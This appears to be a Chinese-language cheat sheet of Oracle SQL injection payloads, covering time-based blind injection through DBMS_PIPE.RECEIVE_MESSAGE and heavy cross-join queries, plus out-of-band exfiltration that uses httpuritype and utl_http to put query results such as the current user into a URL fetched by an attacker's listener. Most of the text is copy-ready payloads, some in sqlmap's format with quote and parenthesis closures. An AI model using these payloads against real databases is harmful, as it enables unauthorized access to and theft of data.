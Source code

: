 ### oracle延时盲注-基于函数超时

原理：

RECEIVE_MESSAGE函数-从指定管道获取消息

语法：

DBMS_PIPE.RECEIVE_MESSAGE('pipename',timeout)

常用payload：

```txt
and (select length(user) from dual)=N or 1=dbms_pipe.receive_message('RDS',5)                           -- 同样是使用短路求值的思路，or后面的表达式最终会返回真。
and (select length(user) from dual)=4 or 1=utl_http.request('http://10.0.0.1/ '||('a')||'.html');       -- 正确则不延迟
1) AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5) AND (6314=6314
1 AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5)
1 AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5)-- ACtH
1') AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5) AND ('RTOk'='RTOk
1' AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5) AND 'SEal'='SEal

sqlmap中的payload：
[ok]AND 123=DBMS_PIPE.RECEIVE_MESSAGE('123',5)
[ok]OR 123=DBMS_PIPE.RECEIVE_MESSAGE('123',5)
```

### oracle延时盲注-基于重查询

原理：

即通过执行一个较为消耗资源的查询，造成数据库的延迟，再通过返回是否延迟来判断猜测的结果。

```
and  (select length(user) from dual)=6 or 1<(SELECT count(*) FROM all_users A, all_users B, all_users C,all_users D,all_users E);
```

在我们的N是正确的情况下，数据库并不会产生延迟；如果错误，则会产生延迟

常用payload：

```txt
[ok]AND 123=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5)
[ok]OR 123=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5)
```

## oracle带外传输

```txt
即在Oracle拥有外网权限的时候，可以让Oracle把查询的结果拼接到URL里，去访问这个URL，再在我们的服务器上监听端口即可得到查询结果。（同样以查询当前用户为例）
and (select httpuritype('127.0.0.1:8888/'||(select user from dual)).getclob() from dual) is not null;

或者也可以使用utl_http.request等函数。

测试效果如下：
```
